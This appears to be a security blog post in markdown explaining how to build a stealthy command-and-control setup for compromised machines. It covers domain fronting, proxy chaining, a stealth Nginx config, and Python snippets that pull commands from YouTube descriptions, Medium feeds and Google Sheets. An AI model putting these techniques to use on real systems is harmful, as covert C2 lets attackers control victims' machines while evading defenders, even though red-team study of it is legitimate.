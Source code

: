 ```yaml
---
layout: post
title: "Crafting an Advanced and Inconspicuous C2 Infrastructure"
date: 2024-06-25
image: /assets/images/first-c2-post.jpg
categories: security c2
---
```


In today's cybersecurity landscape, creating a Command and Control (C2) infrastructure that is both advanced and inconspicuous is paramount. Whether you're involved in ethical hacking, penetration testing, or other legitimate purposes, your C2 operations must remain undetectable. This blog post explores innovative ways to establish an advanced C2 infrastructure using free platforms such as YouTube, Medium, and Google Sheets. Let's dive into the art of blending in with regular web traffic while maintaining the stealth you need.

### What is a C2 Server?

A C2 (Command and Control) server is a central hub used to send commands to and receive data from compromised systems (bots). For your script to operate effectively and inconspicuously, your C2 server should:
- Host command files for the script to fetch and execute.
- Receive data and status updates from the script.
- Ensure all communications are encrypted and stealthy.

### Setting Up a Stealthy C2 Server

#### 1. Choose a Stealthy Hosting Solution
- **Cloud Providers:** Use reputable cloud providers (AWS, Google Cloud, Azure) with minimal logging and monitoring.
- **Domain Fronting:** Use domain fronting to disguise traffic as legitimate requests to well-known services.
- **Proxy Servers:** Route traffic through multiple proxy servers to obscure the origin and destination.

#### 2. Use HTTPS with Domain Fronting
- **HTTPS:** Ensure all communications are encrypted using HTTPS.
- **Domain Fronting:** Configure your C2 server to use domain fronting. This technique routes traffic through high-reputation domains, making it appear as legitimate traffic.

#### 3. Create a Web Server with Stealth Features
- **Server Software:** Use a lightweight web server like Nginx or Apache.
- **Stealth Configuration:** Configure the server to use inconspicuous URLs and paths. Hide server banners and error messages.

*Example Nginx configuration with stealth features*:

```nginx
server {
    listen 443 ssl;
    server_name mylegitdomain.com;

    ssl_certificate /etc/ssl/certs/mylegitdomain.com.crt;
    ssl_certificate_key /etc/ssl/private/mylegitdomain.com.key;

    location /api {
        proxy_pass http://backend_server;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_hide_header X-Powered-By;
        add_header X-Content-Type-Options nosniff;
        add_header X-Frame-Options DENY;
    }
}
```


#### 4. Implement Encrypted Command and Control
- **Commands Endpoint**: Create an endpoint for fetching commands.
- **Webhook Endpoint**: Create an endpoint for receiving data and status updates.
Example Flask application to handle commands and webhooks:*

[Flask Code Here](https://github.com/Dyst0rti0n/blog-scripts/blob/main/c2-scripts/flask/example.py)

## Free and Inconspicuous C2 Hosting Platforms
#### 1. YouTube: A Video Platform Turned C2 Hub
Imagine leveraging YouTube, the world’s largest video-sharing platform, as your stealthy C2 server. By embedding commands within video descriptions or comments, you can seamlessly blend your C2 operations into the vast sea of YouTube content.

#### Why YouTube?

- **Publicly Accessible**: Easily accessible and free.
- **High Traffic**: Blends in with regular traffic.
= **Dynamic Content**: Regular updates and high engagement.

#### Setting Up:
- **Create a YouTube Channel**: Use an anonymous or nondescript name.
- **Upload Videos**: Include commands in video descriptions or comments.
- **Fetch Commands**: Use the YouTube API to parse the descriptions.

*Example: Fetching Commands from YouTube Descriptions*

```python
from googleapiclient.discovery import build

def get_latest_video_description(api_key, channel_id):
    youtube = build('youtube', 'v3', developerKey=api_key)
    request = youtube.search().list(part='snippet', channelId=channel_id, order='date', maxResults=1)
    response = request.execute()
    
    if response['items']:
        video_id = response['items'][0]['id']['videoId']
        video_request = youtube.videos().list(part='snippet', id=video_id)
        video_response = video_request.execute()
...
```
[See the full script on GitHub](https://github.com/Dyst0rti0n/blog-scripts/tree/main/c2-scripts/youtube-hub)


#### 2. Medium: Blogging with a Hidden Agenda
Medium is a popular platform for sharing ideas and stories, but with a twist, it can become your covert C2 server. By posting commands as blog entries, you can hide in plain sight among the thousands of articles published daily.

#### Why Medium?
- **Public and Free**: Easily accessible and free.
- **Frequent Updates**: Constantly updated with new posts.
- **Anonymity**: Easy to create multiple accounts.

#### Setting Up:
1. **Create a Medium Account**: Use an anonymous or nondescript name.
2. **Post Commands**: Embed commands within blog posts.
3. **Fetch Commands**: Use RSS feeds or web scraping to fetch the latest commands.

*Example: Fetching Blog Posts from Medium*

```python
import feedparser
import time

def get_latest_post(feed_url):
    """
    Fetch the latest blog post from a given Medium RSS feed URL.

    Parameters:
    feed_url (str): The URL of the Medium RSS feed.

    Returns:
    str: The title of the latest blog post if available, otherwise None.
    """
    feed = feedparser.parse(feed_url)
    if feed.entries:
        return feed.entries[0].title
    return None
...
```
[See the full script on GitHub](https://github.com/Dyst0rti0n/blog-scripts/tree/main/c2-scripts/medium-fetcher)


#### 3. Google Sheets: Spreadsheet C2 Mastery
Google Sheets, a ubiquitous tool for collaboration and data storage, can also serve as an inconspicuous C2 server. By using the Google Sheets API, you can store commands and fetch them as needed.

#### Why Google Sheets?
- **Collaboration Tool**: Commonly used for legitimate purposes.
- **API Access**: Easy to fetch and update data programmatically.
- **Free**: Generous free tier for storage and access.

#### Setting Up:
1. **Create a Google Sheet**: Share with a service account for API access.
2. **Post Commands**: Add commands as new rows in the sheet.
3. **Fetch Commands**: Use the Google Sheets API to retrieve commands.

*Example: Fetching Commands from Google Sheets*

```python
import gspread
from oauth2client.service_account import ServiceAccountCredentials
import json
import sys

def get_latest_command(sheet_url, creds_json):
    try:
        scope = ["https://spreadsheets.google.com/feeds", "https://www.googleapis.com/auth/drive"]
        
        creds = ServiceAccountCredentials.from_json_keyfile_name(creds_json, scope)
        client = gspread.authorize(creds)
        
        sheet = client.open_by_url(sheet_url).sheet1
        
        commands = sheet.get_all_records()
        
        if commands:
            return commands[-1]['Command']
        else:
            return None
...
```

[See the full script on GitHub](https://github.com/Dyst0rti0n/blog-scripts/tree/main/c2-scripts/google-sheets)


### Conclusion
In an age where cybersecurity measures are becoming increasingly sophisticated, it's essential to think outside the box to stay ahead. Leveraging platforms like YouTube, Medium, and Google Sheets not only provides a cost-effective C2 infrastructure but also helps maintain a low profile. These methods allow your operations to blend seamlessly into the vast digital landscape, reducing the risk of detection.

Remember, with great power comes great responsibility. Ensure that all actions taken are ethical and legal, and that you have explicit permission to operate on any systems you control. Misuse of such technology can lead to severe legal consequences.

Stay stealthy, stay ethical, and continue exploring the boundaries of cybersecurity innovation!